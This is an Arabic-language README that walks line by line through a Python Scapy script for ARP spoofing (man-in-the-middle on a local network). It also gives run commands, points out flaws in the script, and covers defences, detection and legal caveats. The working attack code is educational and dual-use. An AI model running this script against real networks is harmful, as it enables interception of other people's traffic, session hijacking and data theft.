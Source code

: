 # 🕵️ هجوم ARP Spoofing - arp.py

## 📋 نظرة عامة

هذا الملف يوضح كيفية تنفيذ هجوم ARP Spoofing (أو ARP Poisoning). هذا الهجوم يسمح للمهاجم بالتقاط حركة المرور بين الضحية والراوتر عن طريق تسميم جدول ARP.

## 🔍 شرح مفصل للكود

### 📦 الاستيرادات
```python
from scapy.all import *
import time
```
- **scapy.all**: مكتبة قوية لمعالجة حزم الشبكة
- **time**: للتحكم في توقيت الهجوم

### 🎯 تعريف المتغيرات
```python
victim_ip = "192.168.1.10"
router_ip = "192.168.1.1"
attacker_mac = get_if_hwaddr("eth0")
```
- **victim_ip**: عنوان IP للضحية
- **router_ip**: عنوان IP للراوتر
- **attacker_mac**: عنوان MAC للمهاجم (يتم الحصول عليه تلقائياً)

### ⚔️ دالة التزوير
```python
def spoof(target_ip, spoof_ip):
    pkt = ARP(op=2, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", psrc=spoof_ip)
    send(pkt, verbose=False)
```

**شرح كل سطر:**
- **def spoof(target_ip, spoof_ip)**: تعريف دالة التزوير
- **op=2**: نوع ARP packet (2 = ARP Reply)
- **pdst=target_ip**: عنوان IP الهدف
- **hwdst="ff:ff:ff:ff:ff:ff"**: عنوان MAC الهدف (broadcast)
- **psrc=spoof_ip**: عنوان IP مزور (يبدو أنه من الراوتر)
- **send(pkt, verbose=False)**: إرسال الحزمة بدون رسائل تفصيلية

### 🔄 حلقة الهجوم الرئيسية
```python
try:
    print("[*]srart attacking ...")
    while True:
        spoof(victim_ip, router_ip)
        spoof(router_ip, victim_ip)
        time.sleep(2)
```

**شرح كل سطر:**
- **try**: بداية معالجة الأخطاء
- **print("[*]srart attacking ...")**: رسالة بدء الهجوم
- **while True**: حلقة لا نهائية للهجوم المستمر
- **spoof(victim_ip, router_ip)**: إخبار الضحية أن المهاجم هو الراوتر
- **spoof(router_ip, victim_ip)**: إخبار الراوتر أن المهاجم هو الضحية
- **time.sleep(2)**: انتظار ثانيتين بين كل جولة

### 🛑 معالجة الإيقاف
```python
except KeyboardInterrupt:
    print("\n[*] إ ARP")
    send(ARP(op=2, pdst=victim_ip, psrc=router_ip, hwsrc="MAC"), count=3)
```

**شرح كل سطر:**
- **except KeyboardInterrupt**: عند الضغط على Ctrl+C
- **print("\n[*] إ ARP")**: رسالة إيقاف الهجوم
- **send(ARP(...), count=3)**: إرسال 3 حزم ARP صحيحة لاستعادة الاتصال

## 🚀 كيفية التنفيذ

### 1. تثبيت المتطلبات
```bash
pip install scapy
```

### 2. تشغيل الهجوم
```bash
sudo python3 arp.py
```

**ملاحظة**: تحتاج صلاحيات root لاستخدام scapy

### 3. إيقاف الهجوم
اضغط `Ctrl+C` لإيقاف الهجوم

## ⚠️ الثغرات في الكود

### 1. خطأ إملائي
```python
print("[*]srart attacking ...")  # يجب أن تكون "start"
```

### 2. عنوان MAC ثابت
```python
hwsrc="MAC"  # يجب أن يكون عنوان MAC حقيقي
```

### 3. عدم وجود تحقق من الأخطاء
الكود لا يتحقق من صحة عناوين IP أو وجود الأجهزة

## 🛡️ طرق الحماية من ARP Spoofing

### 1. Static ARP Tables
```bash
arp -s 192.168.1.1 00:11:22:33:44:55
```

### 2. ARP Monitoring
```bash
arpwatch -i eth0
```

### 3. Network Segmentation
فصل الشبكة إلى أجزاء مختلفة

### 4. Encryption
استخدام VPN أو HTTPS

### 5. ARP Spoofing Detection Tools
- arpwatch
- arpalert
- XArp

## 🔍 اكتشاف الهجوم

### 1. مراقبة جدول ARP
```bash
arp -a
```

### 2. استخدام Wireshark
مراقبة حزم ARP المشبوهة

### 3. برامج الحماية
- جدران الحماية الحديثة
- برامج مكافحة الفيروسات

## 📊 تأثير الهجوم

- **سرقة البيانات**: يمكن للمهاجم رؤية جميع البيانات
- **Man-in-the-Middle**: التحكم في الاتصالات
- **Session Hijacking**: سرقة الجلسات
- **DNS Spoofing**: توجيه المستخدمين لمواقع مزيفة

## ⚖️ الجوانب القانونية

- استخدام هذا الهجوم ضد أنظمة أخرى غير قانوني
- استخدم فقط على أنظمة خاصة بك
- احصل على إذن مكتوب قبل الاختبار 